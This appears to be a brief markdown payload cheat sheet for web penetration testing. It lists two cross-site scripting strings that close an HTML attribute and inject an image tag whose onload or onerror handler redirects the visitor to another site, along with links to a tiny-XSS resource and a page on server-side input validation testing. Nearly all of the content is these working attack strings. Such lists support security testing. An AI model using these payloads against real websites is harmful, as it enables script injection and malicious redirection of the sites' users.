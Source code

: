 # Payload

## XSS to Open Redirection Payload:
1. http://Test"><img src=x onload=window.location="http://google.com">
2. "><img src=x onerror=window.location="http://google.com">

## Tiny XSS
1. https://tinyxss.terjanq.me/

## Server-Side input validation testing
1. <a href=https://redtm.com/web-pentest/server-side-input-validation>Server-Side input validation testing</a>
